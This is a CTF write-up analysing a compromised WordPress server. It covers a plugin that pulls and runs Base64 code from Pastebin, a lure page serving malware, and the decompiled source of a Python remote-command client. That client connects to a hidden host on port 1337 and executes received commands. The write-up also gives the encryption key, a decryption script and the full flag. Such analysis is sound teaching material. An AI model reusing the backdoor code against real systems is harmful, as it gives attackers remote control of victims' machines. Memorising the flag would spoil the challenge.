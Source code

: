 ```yaml
---
title: "Inception Write Up"
date: 2024-10-20 18:00:00 +0800
categories: [CTF Write ups]
tags: [Forensics, Malware, Reverse Engineering]
description: Write Up of the Inception Challenge in Cyber Odyssey 2024 Qualifications
image: /images/odyssey/odyssey.png
---
```

# Inception Write Up

![](/images/odyssey/0.png)

In this challenge, we have two files: a Linux server file system and a Wireshark network capture file.

![](/images/odyssey/1.png)

Analyzing the file system, we found the website hosted on this server at /srv/www/. It is a WordPress website.

![](/images/odyssey/2.png)

### The first part of the flag

In the WordPress files, specifically in the plugins folder (/srv/www/wp-content/plugins), we found two plugins.

![](/images/odyssey/3.png)

The plugin-manager contains a single PHP file, which is unusual. In the plugin-manager.php code, we discovered a Pastebin link. 

![](/images/odyssey/4.png)

Essentially, the script retrieves data from that Pastebin, decodes it from Base64, and executes it.

![](/images/odyssey/5.png)

After decoding the Base64 text, we obtained a script (which is a reverse shell script). Within this script, we found a variable ($secpart) that holds the first part of the flag in decimal:

![](/images/odyssey/6.png)

"65 75 65 83 69 67 123 55 104 51 95" -> `AKASEC{7h3_`

### The second part of the flag

Now that we have the first part, we still need to find the other two.

Next, we examined the main folder of WordPress. The index.php file refers us to free_items.php. The website displays the text: "Congrats! You Won a free Arduino! Click On The Image To See More Details," and clicking the image downloads an executable (which is malware).

Analyzing the website source code, we noticed obfuscated JavaScript. In the array of strings, we found a hex string containing the second part of the flag:

![](/images/odyssey/7.png)

"3472375f30665f6326635f" -> `4r7_0f_c&c_`

### The third part of the flag

The JavaScript also contains a Base64 text of the executable, so we retrieved the malware for analysis.

#### Static Analysis of the Malware

![](/images/odyssey/8.png)

![](/images/odyssey/9.png)

The malware is a PE32+ executable written in Python. To reverse it and see the source code, I used [pyinstxtractor.py](https://github.com/extremecoders-re/pyinstxtractor) to extract the contents of this PyInstaller-generated executable file.

![](/images/odyssey/10.png)

Once extracted, we decompiled the main file (client.pyc). It contained obfuscated Python code that establishes a connection to a remote server using port 1337 to receive and execute commands sent by the server. These commands are encrypted using AES and XOR.

```py
import socket
import sys
import time
import subprocess
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding
import os
_DW_ = 1337

def _X_X_(_):
    return ''.join((chr(__) for __ in _))

def _X_Y_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___
_0x20_ = _X_Y_(_X_X_([60, 58, 63, 35, 63, 63, 35, 63, 60, 35, 63, 61, 63]))
_0x0_ = _X_Y_(_X_X_([16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 65, 66, 67, 68, 69, 70, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 65, 66, 67, 68, 69, 70])).encode()
_0x01_ = _X_Y_(_X_X_([113, 114, 115, 116, 117, 118, 41, 40, 39, 38, 37, 36, 35, 34, 33, 32])).encode()
_0x00_ = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
_0x00_.connect((_0x20_, _DW_))

def _234234_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___

def _777_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___

def __(_0x, _, _func):
    _0xPP = padding.PKCS7(algorithms.AES.block_size).padder()
    _0xPD = _0xPP.update(_0x.encode()) + _0xPP.finalize()
    _0xC = Cipher(algorithms.AES(_), modes.CBC(_func), backend=default_backend())
    _0xE = _0xC.encryptor()
    _0x555 = _0xE.update(_0xPD) + _0xE.finalize()
    return _0x555

def ____(___, _____, _):
    _CC = Cipher(algorithms.AES(_____), modes.CBC(_), backend=default_backend())
    _D = _CC.decryptor()
    _DD = _D.update(___) + _D.finalize()
    u = padding.PKCS7(algorithms.AES.block_size).unpadder()
    _DD = u.update(_DD) + u.finalize()
    return _DD.decode()

def _(__):
    _ = b''
    while True:
        ___ = __.recv(1024)
        print(___)
        if not ___:
            break
        _ = _ + ___
        if len(___) < 1024:
            break
    return _

def _____(_, __, ___=1024):
    ____ = 0
    while ____ < len(__):
        _____ = _.send(__[____:____ + ___])
        ____ += _____
while True:
    try:
        ___________ = _(_0x00_)
        print(___________)
        ___________ = ____(___________, _0x0_, _0x01_)
        print(___________)
        ___________ = _777_(___________)
        print(___________)
        print('received : {}'.format(___________))
        ___________ = subprocess.run(___________, shell=True, capture_output=True, text=True)
        print(___________.returncode)
        if not ___________.returncode:
            print(___________.stdout)
            ___________ = _234234_(___________.stdout)
            ___________ = __(___________, _0x0_, _0x01_)
            _____(_0x00_, ___________)
        else:
            ___________ = _234234_(___________.stderr)
            ___________ = __(___________, _0x0_, _0x01_)
            _0x00_.send(___________)
    except KeyboardInterrupt:
        _0x00_.close()
        print('connection closed !!!')
        exit()
```

After deobfuscating the code, we found the key and IV used for AES encryption:

`KEY = b'0123456789abcdef0123456789abcdef'`
`IV = b'abcdef9876543210'`

Now that we have the network capture file, we can analyze the commands executed on the server.

#### Analyzing Network Traffic

We filtered the TCP protocol by port 1337 and followed the stream. The data in red represents the client commands sent to the server (the victim computer), while the blue data shows the output of those commands.

![](/images/odyssey/11.png)

Next, we needed to change the output of the packets from ASCII to RAW.

![](/images/odyssey/12.png)

This is the Python script I created to decrypt the traffic based on the script that encrypted them.

```py
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding

KEY = b'0123456789abcdef0123456789abcdef'
IV = b'abcdef9876543210'

def decrypt_xor(data):
    length = len(data)
    result = ''.join([chr(ord(i) ^ length) for i in data])
    return result

def to_decrypt(a, key, iv):
    CC = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    D = CC.decryptor()
    DD = D.update(a) + D.finalize()
    u = padding.PKCS7(algorithms.AES.block_size).unpadder()
    DD = u.update(DD) + u.finalize()
    return DD.decode()

a = bytes.fromhex("") # here put the RAW data
a = to_decrypt(a, KEY, IV)
a = decrypt_xor(a)
print(a)
```

When decrypting the traffic, we found that one of the commands sent to the server contained the last part of the flag.

![](/images/odyssey/13.png)

Flag : `AKASEC{7h3_4r7_0f_c&c_15_m1nd_bl0w1n6}`

### Conclusion

In conclusion, this challenge was good. I enjoyed it, even though I spent a significant amount of time finding the first part that was hidden in the plugin.

